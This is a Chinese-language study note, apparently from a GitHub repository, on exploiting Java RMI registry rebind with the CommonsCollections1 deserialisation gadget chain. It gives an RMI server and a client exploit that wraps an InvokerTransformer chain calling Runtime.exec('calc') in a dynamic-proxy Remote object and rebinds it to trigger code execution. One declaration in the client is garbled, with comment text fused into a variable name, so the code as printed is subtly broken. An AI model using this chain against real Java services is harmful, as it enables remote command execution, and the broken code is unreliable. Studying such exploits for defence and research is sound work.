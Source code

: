 

#  攻击RMI

## 利用RMI重绑定rebind与动态代理机制构造恶意Remote对象触发CC1

### 环境配置：

还是jdk1,7和cc包3.1

```xml
<dependencies>
    <dependency>
        <groupId>commons-collections</groupId>
        <artifactId>commons-collections</artifactId>
        <version>3.1</version>
    </dependency>
</dependencies>
```
###  原理

RMI在传输过程中：会将对象进行序列化与反序列化，这个被传输的对象是Remote类。那么只要构建恶意Remote对象即可在远程服务器触发反序列化漏洞。

在Client端获取远程registery对象后，可以利用bind/rebind绑定一个包含反序列化漏洞的Remote对象（Stub），Server端接收到bind/rebind后就会反序列化触发漏洞。

### 流程

1. 构建AnnotationInvocationHandler触发CC1
2. 动态代理生成包含AnnotationInvocationHandler的Remote对象
3. 获取远程Registry
4. Registry重绑定发送恶意Remote对象
5. Server端触发反序列化

###  payload

server端：

还是创建一个服务

```java
package RMI;


import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {
    public static void main(String[] args) throws Exception {
        Registry registry= LocateRegistry.createRegistry(1088);
        registry.bind("test",new RMIImpl());
        System.out.println("Server is running!!!");
    }
}

```

client端：

```java
package RMI;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;

public class Client {
    public static void main(String[] args) throws Exception {
        ConstantTransformer ct = new ConstantTransformer(Runtime.class);
        InvokerTransformer it1 = new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]});
        InvokerTransformer it2 = new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]});
        InvokerTransformer it3 = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
        Transformer[] transformers = new Transformer[]{ct, it1, it2, it3};
        Transformer chainedTransformer = new ChainedTransformer(transformers);

        Map map = new HashMap();
        map.put("value", "value");

        Map transformermap = TransformedMap.decorate(map, null, chainedTransformer);

        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        //因为要生成一个remote对象，刚好可以利用动态代理绑定chainhandler生成一个remote对象，相当于转换了一个对象
        InvocationHandler chainhandler生成一个remote对象 = (InvocationHandler) constructor.newInstance(Target.class, transformermap);
        Remote remote = (Remote) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[]{Remote.class}, chainhandler);

        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1088);
        registry.rebind("hacked", remote);
    }
}

```

##  参考文章--待继续学习

https://xz.aliyun.com/t/7932

https://su18.org/post/rmi-attack/#1-%E6%9C%8D%E5%8A%A1%E6%B3%A8%E5%86%8C

(https://www.anquanke.com/post/id/200860 , https://mp.weixin.qq.com/s/TbaRFaAQlT25ASmdTK_UOg)

http://tttang.com/archive/1430/#toc_0x02

https://paper.seebug.org/1251/#java-rmi-

